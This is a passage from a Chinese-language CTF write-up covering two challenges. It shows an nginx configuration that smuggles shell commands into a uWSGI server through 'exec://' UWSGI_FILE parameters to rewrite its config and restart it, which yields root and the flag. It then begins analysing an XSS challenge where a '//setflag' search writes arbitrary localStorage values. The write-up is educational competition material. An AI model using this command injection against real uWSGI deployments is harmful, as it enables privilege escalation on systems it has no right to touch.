 那么只要利用这个漏洞把之前描述的过程实现就好了，我这里偷懒下直接在本地nginx写了个配置文件：
```nginx
location /step1 {
    root /;
    include uwsgi_params;
    uwsgi_param UWSGI_FILE "exec://sed 's/^.*id = no.*//' /tmp/uwsgi-ctf.ini > /tmp/uwsgi-ctf2.ini && cat /tmp/uwsgi-ctf2.ini > /tmp/uwsgi-ctf.ini";
    uwsgi_param SCRIPT_NAME "/step1";
    uwsgi_pass 127.0.0.1:9090;
}

location /step2 {
    root /;
    include uwsgi_params;
    uwsgi_param UWSGI_FILE "exec://kill -QUIT `cat /tmp/uwsgi.pid`";
    uwsgi_param SCRIPT_NAME "/step2";
    uwsgi_pass 127.0.0.1:9090;
}
```
然后部署一下访问网址并且在`lo`上抓包，将这里记录到的uwsgi的封包base64后贴上去发送就可以获得root权限，随后直接读取`/flag`即可。

## Q小树洞的一大步

久仰XSS的大名（当年的贴吧XSS漏洞自动转发该帖到用户所关注的所有贴吧，造成贴吧全站爆吧一个下午不知道是否还有人记得hhh），但确实没做过类似的题目，而且这个树洞的代码有点复杂，似乎不知道从何入手，所以先随便看看。

 1. 首先看了看前端和后端的交互，以及前端对后端返回的处理，感觉和本题没什么关系，而且这里后端压根没有数据库，其生成的随机文本不能控制，即使有漏洞看着也不像是能利用的样子。
 2. 然后看了看前端还有什么东西是可以配置的，比如在设置里可以调背景图片，然后在脚本里搜索`background`大致看一看能发现其实现方式是由`localStorage.hole_config`加载到`window.config`中，然后填充到网页里。又搜索了下`localStorage`发现它竟然是能通过网址访问被直接控制的，感觉有文章可做：
```js
{
    key: "on_keypress",
    value: function(e) {
        if ("Enter" === e.key) {
            var t = Ve.exec(this.state.search_text);
            if (t)
                return void (t[2] ? (localStorage[t[1]] = t[2],
                alert("Set Flag " + t[1] + "=" + t[2] + "\nYou may need to refresh this webpage.")) : (delete localStorage[t[1]],
                alert("Clear Flag " + t[1] + "\nYou may need to refresh this webpage.")));
            var n = this.state.search_text.startsWith("#") ? "single" : "search";
            this.set_mode(n, this.state.search_text || "")
        }
    }
},
```
上述代码会在搜索时触发，其中`Ve`值为`/^\/\/setflag ([a-zA-Z0-9_]+)=(.*)$/`，即通过搜索`//setflag XXX=YYY`可以控制`localStorage.XXX`为`"YYY"`。而搜索又可以通过网址访问触发（如 https://prob15-qkuhole.geekgame.pku.edu.cn/hole/#%2F%2Fsetflag%2BXXX=YYY ）。

这样可以控制背景图片、颜色模式等一系列参数，好像对于现代浏览器并没有什么用处，毕竟实在是不能指望2021年的浏览器当看到背景图片指向`javascript:XXX`时还会傻傻地执行`XXX`（可能十年前的浏览器会这样？），所以还需要继续看`localStorage`里还会存了些什么东西，然后发现了一个有意思的`localStorage.APPSWITCHER_ITEMS`，里面存了一些网站头部的标签信息（即“树洞”、“教室”、“课表”、“成绩”），它会首先在`localStorage`中加载，等500毫秒以后它会通过网址`/hole/static/appswitcher_items.json`更新，通过控制`localStorage.APPSWITCHER_ITEMS`将可以控制500毫秒网站头部标签的跳转地址（`href`，其允许javascript代码），但好像也没什么用。
